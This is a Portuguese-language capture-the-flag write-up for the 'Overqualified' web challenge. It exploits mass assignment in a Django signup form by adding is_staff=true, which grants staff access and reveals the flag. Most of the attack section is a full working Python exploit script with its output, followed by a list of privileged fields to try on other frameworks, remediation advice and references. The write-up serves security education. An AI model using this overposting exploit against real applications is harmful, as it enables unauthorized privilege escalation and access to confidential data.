

# Overqualified | Fluid Attacks CTF 2026

`web` `mass-assignment` `overposting` `privilege-escalation` `django`

| | |
|---|---|
| **Plataforma / evento** | Fluid Attacks CTF 2026 (etapa 2, 04/07/2026) |
| **Categoria** | Web |
| **Resolvido em** | 2026-07-04 |

## TL;DR

O cadastro do "NexaCorp People Portal" sofre de mass assignment (overposting): o formulário de `/register/` só tem username, email e senha, mas o backend aceita qualquer campo que eu mandar, inclusive `is_staff`. Então eu registro um usuário com `is_staff=true`, caio direto num dashboard de staff e acesso `/admin/dashboard/`, que mostra a "Internal System Key" marcada como Confidential: a flag.

> [!IMPORTANT]
> **Ideia-chave:** se o backend liga os campos do request direto no model/objeto do usuário, campos que não estão no formulário (como `is_staff`) podem ser setados pelo cliente. Virar staff é só mandar um campo a mais.

## Enunciado

> NexaCorp People Portal. Create your account and access your workspace.

**Arquivos / instância:** sem código-fonte, só o site (Django). Na minha instância o host era `6cdfd5b0113a794f.chal.ctf.ae`. Tem `/register/`, `/dashboard/` e uma área de Administração.

## Dicas progressivas

<details><summary>Dica 1</summary>O que diferencia um usuário comum de um staff? E o cadastro, o que ele realmente aceita além dos campos visíveis?</details>
<details><summary>Dica 2</summary>Tente mandar <code>is_staff=true</code> no POST do <code>/register/</code>, mesmo não existindo esse campo no formulário.</details>
<details><summary>Dica 3</summary>Com a sessão staff, acesse <code>/admin/dashboard/</code>. A flag é a "Internal System Key".</details>

## Ambiente

- **Máquina atacante:** Kali Linux, Python 3 (`requests`).

***INSERIR no terminal: Kali (atacante)

```bash
export TARGET=https://6cdfd5b0113a794f.chal.ctf.ae
```

Na minha instância o host era esse (o script lê `TARGET`).

## Resolução

### 1. Reconhecimento: staff vs comum

O portal tem registro, dashboard e uma seção "Administration / Admin Dashboard" que só aparece para staff. Sem código-fonte, a hipótese mais barata de testar num app Django é mass assignment no cadastro: o Django tem o atributo `is_staff` no model de usuário, e se a view fizer algo como `User.objects.create(**request.POST)` ou um `ModelForm` com `fields = "__all__"`, o cliente consegue setar `is_staff`.

> [!TIP]
> **Conceito: mass assignment / overposting (CWE-915).** Acontece quando o servidor vincula automaticamente os campos do request a um objeto/model sem uma allowlist. O atacante inclui campos sensíveis que não estão no formulário (`is_staff`, `is_admin`, `role`, `balance`...) e o servidor os aceita. A defesa é uma allowlist explícita de campos (`fields = ["username", "email", ...]`). Referência: [CWE-915](https://cwe.mitre.org/data/definitions/915.html).

### 2. Exploração: registrar como staff

O exploit pega o CSRF do `/register/`, posta o cadastro com o campo extra `is_staff=true`, confirma que caiu num dashboard de staff e então visita a rota de admin. Script completo, idêntico ao arquivo em `scripts/`:

#### `scripts/script3.py`

```python
#!/usr/bin/env python3
import os
import re
import html
import time
import requests
from urllib.parse import urljoin
from urllib3.exceptions import InsecureRequestWarning

# Desativa warning visual de TLS no ambiente CTF.
requests.packages.urllib3.disable_warnings(category=InsecureRequestWarning)

TARGET = os.environ.get("TARGET", "https://6cdfd5b0113a794f.chal.ctf.ae").rstrip("/")
BASE = TARGET + "/"

UA = "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 Chrome/125 Safari/537.36"

FLAG_RE = re.compile(r"flag\{[^}\r\n]+\}", re.IGNORECASE)

os.makedirs("loot", exist_ok=True)


def extract_csrf(body):
    """
    Extrai o token CSRF do input hidden do Django.
    """
    match = re.search(
        r'name=["\']csrfmiddlewaretoken["\']\s+value=["\']([^"\']+)["\']',
        body,
        re.IGNORECASE,
    )
    return match.group(1) if match else None


def strip_tags(body):
    """
    Remove HTML/CSS/JS para gerar snippets legíveis no terminal.
    """
    body = re.sub(r"<script\b.*?</script>", " ", body, flags=re.I | re.S)
    body = re.sub(r"<style\b.*?</style>", " ", body, flags=re.I | re.S)
    body = re.sub(r"<[^>]+>", " ", body)
    body = html.unescape(body)
    return re.sub(r"\s+", " ", body).strip()


def save(name, response):
    """
    Salva resposta bruta para análise e writeup.
    """
    safe = re.sub(r"[^a-zA-Z0-9_.-]+", "_", name)
    path = f"loot/script3_{safe}.txt"

    with open(path, "w", encoding="utf-8", errors="ignore") as f:
        f.write(f"URL: {response.url}\n")
        f.write(f"STATUS: {response.status_code}\n")
        f.write("HEADERS:\n")
        for k, v in response.headers.items():
            f.write(f"{k}: {v}\n")
        f.write("\nBODY:\n")
        f.write(response.text)

    return path


def check_flag(label, response):
    """
    Procura flag na resposta.
    """
    match = FLAG_RE.search(response.text)
    if match:
        flag = match.group(0)

        print()
        print("=" * 80)
        print("[+] FLAG ENCONTRADA")
        print("=" * 80)
        print(flag)

        with open("flag.txt", "w", encoding="utf-8") as f:
            f.write(flag + "\n")

        print("[+] Flag salva em flag.txt")
        save(label, response)
        return True

    return False


def create_staff_session():
    """
    Explora o mass assignment no cadastro com is_staff=true.
    """
    session = requests.Session()
    session.headers.update({"User-Agent": UA})

    print("[*] Abrindo /register/ para pegar CSRF")
    register_page = session.get(urljoin(BASE, "register/"), timeout=15, verify=False)
    save("register_page", register_page)

    csrf = extract_csrf(register_page.text)
    if not csrf:
        raise RuntimeError("Não consegui extrair csrfmiddlewaretoken")

    suffix = str(int(time.time()))
    username = f"guerreiro_staff_{suffix}"
    email_addr = f"{username}@computaria.com"
    password = "Guerreiro@12345"

    data = {
        "csrfmiddlewaretoken": csrf,
        "username": username,
        "email": email_addr,
        "password": password,
        "password_confirm": password,

        # Campo vulnerável: não aparece no formulário, mas o backend aceita.
        "is_staff": "true",
    }

    headers = {
        "Referer": urljoin(BASE, "register/"),
        "X-CSRFToken": csrf,
    }

    print("[*] Criando usuário staff via overposting")
    response = session.post(
        urljoin(BASE, "register/"),
        data=data,
        headers=headers,
        timeout=15,
        allow_redirects=True,
        verify=False,
    )

    path = save("staff_register_response", response)

    print("[*] Usuário:", username)
    print("[*] Email:", email_addr)
    print("[*] Senha:", password)
    print("[*] Status:", response.status_code)
    print("[*] URL final:", response.url)
    print("[*] Resposta salva em:", path)

    text = strip_tags(response.text)
    print("[*] Snippet dashboard:", text[:500])

    check_flag("staff_register_response", response)

    return session, response.text


def extract_links(body):
    """
    Extrai links href do dashboard staff.
    O objetivo é descobrir o href real do botão Admin Dashboard.
    """
    links = set()

    for href in re.findall(r'href=["\']([^"\']+)["\']', body, flags=re.I):
        href = html.unescape(href).strip()

        # Ignora links vazios, âncoras e recursos externos.
        if not href or href == "#" or href.startswith("data:") or href.startswith("http"):
            continue

        links.add(urljoin(BASE, href.lstrip("/")))

    return sorted(links)


def main():
    print("[*] Target:", TARGET)

    session, dashboard_body = create_staff_session()

    print()
    print("=" * 80)
    print("[*] Links encontrados no dashboard staff")
    print("=" * 80)

    links = extract_links(dashboard_body)

    for link in links:
        print(link)

    # Candidatos extras baseados no texto "Admin Dashboard".
    # Mesmo que o link não seja capturado por regex, testamos padrões prováveis.
    extra_candidates = [
        "/admin-dashboard/",
        "/admin_dashboard/",
        "/dashboard/admin/",
        "/dashboard/admin",
        "/admin/dashboard/",
        "/admin/dashboard",
        "/administration/",
        "/administration/dashboard/",
    ]

    for route in extra_candidates:
        links.append(urljoin(BASE, route.lstrip("/")))

    # Remove duplicados preservando ordem.
    seen = set()
    unique_links = []
    for link in links:
        if link not in seen:
            seen.add(link)
            unique_links.append(link)

    print()
    print("=" * 80)
    print("[*] Acessando links/candidatos com sessão Staff")
    print("=" * 80)

    for link in unique_links:
        response = session.get(
            link,
            timeout=15,
            allow_redirects=True,
            verify=False,
        )

        path = save("visit_" + link.replace(TARGET, "").strip("/").replace("/", "_") or "root", response)
        text = strip_tags(response.text)

        print()
        print(f"[*] GET {link}")
        print("[*] Status:", response.status_code)
        print("[*] URL final:", response.url)
        print("[*] Arquivo:", path)
        print("[*] Snippet:", text[:650])

        if check_flag("visit_" + link, response):
            return

    print()
    print("=" * 80)
    print("[-] Flag não encontrada automaticamente")
    print("=" * 80)
    print("[*] Revisão manual sugerida:")
    print("grep -RniE 'flag\\{|Admin Dashboard|confidential|credential|key-panel|flag-value|Staff|Administration' loot/script3_*.txt")


if __name__ == "__main__":
    main()
```

***INSERIR no terminal: Kali (atacante)

```bash
python3 scripts/script3.py
```

```text
[*] Criando usuário staff via overposting
[*] Usuário: guerreiro_staff_1783186362
[*] Status: 200
[*] URL final: https://6cdfd5b0113a794f.chal.ctf.ae/dashboard/
[*] Snippet dashboard: Dashboard · NexaCorp People Portal ... G guerreiro_staff_... Staff ... Administration Admin Dashboard ...

[*] GET https://6cdfd5b0113a794f.chal.ctf.ae/admin/dashboard/
[*] Status: 200
[*] Snippet: Admin · NexaCorp ... Internal System Key ... Confidential flag{210569864b0XXXXX} ...
[+] FLAG ENCONTRADA
flag{210569864b0XXXXX}
```

Repare no dashboard logo após o registro: o usuário já aparece como **Staff**, e o menu mostra "Administration / Admin Dashboard". O overposting funcionou. A rota `/admin/dashboard/` (que não é o admin do Django, é uma página do app) mostra a "Internal System Key ... Confidential", que é a flag.

## Cadeia de ataque



## Por que funciona

A suposição quebrada é que só os campos do formulário chegam ao model. Como o backend vincula o request ao usuário sem uma allowlist, o campo `is_staff` (que existe no model de usuário do Django) é definido pelo valor que eu mandei. Isso é escalonamento de privilégio direto no cadastro: eu me torno staff na criação da conta. A partir daí, a autorização do portal (mostrar a área de administração para staff) trabalha a meu favor.

## Remediação

- Usar allowlist de campos no cadastro: `ModelForm` com `fields = ["username", "email", "password"]`, nunca `"__all__"`, e nunca `create(**request.POST)`.
- Garantir que `is_staff`/`is_superuser` só sejam definidos por fluxos administrativos autenticados.

## Lições e padrões

- **Sinais para reconhecer:** formulários de cadastro/edição de perfil em frameworks com ORM (Django, Rails, Laravel, Spring). Teste mandar campos extras: `is_staff`, `is_admin`, `role=admin`, `is_superuser`, `verified=true`, `balance=...`.
- **Da próxima vez eu tentaria primeiro:** no registro, adicionar o campo privilegiado óbvio do framework e checar se a resposta/menu muda de papel. Em Django, `is_staff`/`is_superuser`; em Rails, o atributo que a app usa para admin.

## Referências

- [CWE-915: Improperly Controlled Modification of Dynamically-Determined Object Attributes](https://cwe.mitre.org/data/definitions/915.html)
- [OWASP: Mass Assignment Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Mass_Assignment_Cheat_Sheet.html)

## Flag

```text
flag{210569864b0XXXXX}
```
